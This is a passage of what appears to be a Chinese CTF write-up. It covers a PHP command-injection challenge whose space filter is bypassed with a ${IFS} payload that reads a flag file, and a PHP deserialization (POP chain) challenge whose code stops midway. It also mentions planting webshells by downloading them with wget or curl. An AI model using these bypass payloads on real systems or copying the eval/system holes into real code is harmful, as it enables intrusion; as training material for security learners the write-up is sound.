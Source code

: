 - 直接写马

或者我们可以利用指令写马, 用 wget, curl 下载木马

### [Week2] RCEisamazingwithspace

```
<?php
highlight_file(__FILE__);
$cmd = $_POST['cmd'];
// check if space is present in the command
// use of preg_match to check if space is present in the command
if (preg_match('/\s/', $cmd)) {
    echo 'Space not allowed in command';
    exit;
}

// execute the command
system($cmd);
```

题目过滤了空格，我们使用${IFS}来代替空格

```
cmd=cat${IFS}../../../flag
```

### [Week2] Really EZ POP

```
<?php
highlight_file(__FILE__);

class Sink
{
    private $cmd = 'echo 123;';
    public function __toString()
    {
        eval($this->cmd);
    }
}

class Shark
{
    private $word = 'Hello, World!';
    public function __invoke()
    {
        echo 'Shark says:' . $this->word;
    }
}

class Sea
{
    public $animal;
    public function __get($name)
    {
        $sea_ani = $this->animal;
        echo 'In a deep deep sea, there is a ' . $sea_ani();
    }
}

class Nature
{
    public $sea;

    public function __destruct()
```